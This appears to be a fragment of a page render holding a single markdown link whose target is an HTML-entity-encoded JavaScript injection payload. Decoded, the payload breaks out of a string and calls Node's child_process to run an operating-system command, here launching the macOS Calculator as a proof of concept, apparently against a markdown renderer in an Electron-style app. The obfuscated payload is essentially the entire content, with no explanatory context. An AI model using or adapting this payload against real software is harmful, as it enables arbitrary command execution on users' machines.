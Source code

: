 [xxxxx](&#x22&#x2c&#x22&#x61&#x22&#x29&#x3b&#x74&#x6f&#x70&#x2e&#x72&#x65&#x71&#x75&#x69&#x72&#x65&#x28&#x27&#x63&#x68&#x69&#x6c&#x64&#x5f&#x70&#x72&#x6f&#x63&#x65&#x73&#x73&#x27&#x29&#x2e&#x65&#x78&#x65&#x63&#x28&#x27&#x6f&#x70&#x65&#x6e&#x20&#x2f&#x53&#x79&#x73&#x74&#x65&#x6d&#x2f&#x41&#x70&#x70&#x6c&#x69&#x63&#x61&#x74&#x69&#x6f&#x6e&#x73&#x2f&#x43&#x61&#x6c&#x63&#x75&#x6c&#x61&#x74&#x6f&#x72&#x2e&#x61&#x70&#x70&#x27&#x29&#x3b&#x2f&#x2f '<style>')